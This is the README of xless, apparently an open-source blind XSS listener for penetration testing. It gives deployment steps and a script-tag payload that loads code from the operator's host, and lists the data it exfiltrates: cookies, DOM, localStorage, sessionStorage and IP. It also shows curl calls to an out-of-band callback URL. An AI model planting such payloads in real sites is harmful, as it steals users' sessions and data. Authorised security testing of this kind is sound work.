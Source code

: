 XLESS
======

# The Serverless Blind XSS App

## About The Project
xless is a serverless blind XSS app that can be used to identify blind XSS vulnerabilities using your own deployed version of the app. There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`. That's it. You have a fully-running Blind XSS listener that uses Slack to notify you for blind XSS callbacks.


## Requirements

* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## Deployment

1. Run:

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```javascript
<script src="https://xless.now.sh"></script>
```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


# Out-of-Band Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

### Demo

```bash
$ curl https://xless.now.sh/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.now.sh/88bf0ecd
```


# Example Blind XSS payloads

You can view a number of handy XSS payloads for your Xless app at `/examples`
* URL: `https://xless.now.sh/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. A nice logo design!
3. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Rami Ahmed (https://twitter.com/rami_ahmad) for the "xless" name idea.
* Zeit.co for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
